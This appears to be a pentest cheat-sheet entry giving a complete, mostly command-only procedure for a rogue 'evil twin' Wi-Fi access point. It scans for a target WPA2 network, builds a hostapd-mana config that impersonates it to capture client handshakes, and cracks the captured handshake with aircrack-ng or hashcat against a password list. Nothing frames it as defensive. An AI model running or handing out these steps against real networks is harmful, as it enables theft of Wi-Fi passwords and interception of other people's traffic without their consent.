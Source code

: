## Rogue Access Point

```text
sudo apt install hostapd-mana
```

```text
sudo airodump-ng wlan0mon

BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID 
11:22:33:44:55:66  -68       12        1    0   1  130   WPA2 CCMP   PSK  linksys
```

At this point we know the following about our target AP:

It has an ESSID of linksys
It has a BSSID of 11:22:33:44:55:66
It uses WPA2 (TKIP/CCMP) (and probably WPA (TKIP/CCMP))
It uses a auth of PSK
It runs on channel 1

#### Create Configuration file
```text
cat linksys-mana.conf

interface=wlan0
ssid=linksys
channel=1
hw_mode=g
ieee80211n=1
wpa=3
wpa_key_mgmt=WPA-PSK
wpa_passphrase=ANYPASSWORD
wpa_pairwise=TKIP CCMP
rsn_pairwise=TKIP CCMP
mana_wpaout=/home/<name>/linksys.hccapx
```

#### Start Access Point
```text
sudo ip link set wlan0 up	
sudo hostapd-mana linksys-mana.conf
```

Wait for Captured a WPA/2 handshake in output

#### Crack!
```text
aircrack-ng linksys.hccapx -e linksys -w /usr/share/john/password.lst

or ...

hcxhash2cap --hccapx=linksys.hccapx -c out.cap
hcxpcapngtool -o hash.hc22000 -E wordlist out.cap
hashcat -m 22000 hash.hc22000 /usr/share/john/password.lst
```text



